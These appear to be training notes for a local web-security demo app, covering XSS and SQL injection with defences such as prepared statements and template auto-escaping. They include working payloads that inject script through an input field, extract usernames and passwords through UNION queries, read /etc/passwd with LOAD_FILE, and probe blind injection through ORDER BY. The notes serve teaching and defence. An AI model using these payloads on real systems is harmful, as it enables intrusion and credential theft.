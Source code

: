 >_'Focus on attacks to know how to protect'_

What is security?
- Confidentiality - no stolen data
- Integrity - no corrupt data
- Availability - no DoS

http://www.owasp.org - security wiki/community

https://www.exploit-db.com/ - attack wiki/community

# Client Side

## GET and POST
Should accept only relevant parameters
- if GET accepts POST params - allows to hide values, send more data, bypass firewalls
- if POST accepts GET params - easier CSRF

## Input Data
Whole HTTP request including headers, imported files, file names etc.

DEMO: if Apache access logs are publicly visible, then it is possible to inject JS via User-Agent

## Input Data Validation
1. Client-side - usability
2. Server-side - validation

Invalid input means:
- insufficient client-side check or
- hacker

## Input manipulation tools
- Burp Suite
- Tamper data FF plugin
etc.

## Web Content Injection - typically named XSS
1. USER enters some data (e.g. username/password)
2. CLIENT sends HTTP REQUEST to SERVER
3. Server creates HTTP RESPONSE and sends it to CLIENT
4. CLIENT renders data that comes from SERVER
  - renders HTML
  - loads content, e.g. ```<img> <iframe> <script> <style>```
  - executes Javascript
5. USER enters some data and modifies DOM CLIENT-side
  e.g. $('div').innerHtml = <script>alert(1)</script>

### HTML injection
```html
<input value="user-input" />
<input value=user-input /> <!--HTML5-->
```
### DEMO
http://localhost:8080/search

- When query is entered it is reflected back by server
- How to detect hole? Search for: `test ' " < > <tag>`
- check 'View source' not 'Inspect' to find broken HTML
- `" autofocus onfocus="alert(1)"`
- chrome detects XSS attack vector - what about safari, firefox
- TODO: what about escaping html, so that detection does not help?

```html
alert(1) == &#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```

#### Wrong Content-Type
http://localhost:8080/rest/partner

What if partner can change his name?
http://localhost:8080/rest/partner?name=abc

#### "I use well-known templating framework and it will do the work"

Spring Boot App + Freemarker

http://freemarker.org/docs/pgui_config_outputformatsautoesc.html

> _By default, templates have "undefined" output format associated, which does no escaping, and in general gives the behavior that you would expect from a template engine that doesn't care about output formats and escaping._

```java
configuration.setOutputFormat(HTMLOutputFormat.INSTANCE);
```

### Javascript injection

//? $.getJSON

//x-content-type-options: nosniff

### URL manipulation

## Cookies
## Sessions
## Request Forgery
## UI redress attacks

## Server Side

## Business logic flaws
## Google hacking
## File handling

## SQL injection

### DEMO: SELECT
http://localhost:8080/sql/search
- `' OR 1=1`
- `' OR 1=1 #`

#### How many columns there are?
- `' UNION SELECT 1 #`
- `' UNION SELECT 1,2 #`
- etc.

#### Useful info
```sql
SELECT DATABASE(), USER(), SERVER()
```
`' UNION SELECT 1, USER(), 3 #`

#### Database structure
E.g. MySQL
```sql
SELECT * FROM INFORMATION_SCHEMA.COLUMNS
```
`' UNION SELECT 1, CONCAT(TABLE_SCHEMA,',',TABLE_NAME,',',COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS #`

#### User table
`' UNION SELECT 1, CONCAT(USERNAME,',',PASSWORD), 3` FROM USERS #

#### Read files
`' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3 #`

#### DEFENCE - Prepared statements

```java
  PreparedStatement updateSales = con.prepareStatement(
      "SELECT * FROM products WHERE name like ?");
  updateSales.setString(1, "%"+query+"%");
```

What about searching: `%`

### DEMO: UPDATE

### DEMO: ORDER BY

```java
PreparedStatement updateSales = con.prepareStatement(
          "SELECT * FROM products ORDER BY ?");
      updateSales.setString(1, orderBy);
```

?

http://localhost:8080/sql/list?orderBy=price

`IF(1=1,price,name)`

#### DEFENCE
- Do not use user input in order by
- E.g. use enum that translates to "good" SQL

### DEMO: BLIND

`IF(1=1,price,name)` vs `IF(1=2,price,name)`

`IF(EXISTS(SELECT * FROM USERS WHERE USERNAME='admin'),price,name)`

http://localhost:8080/hack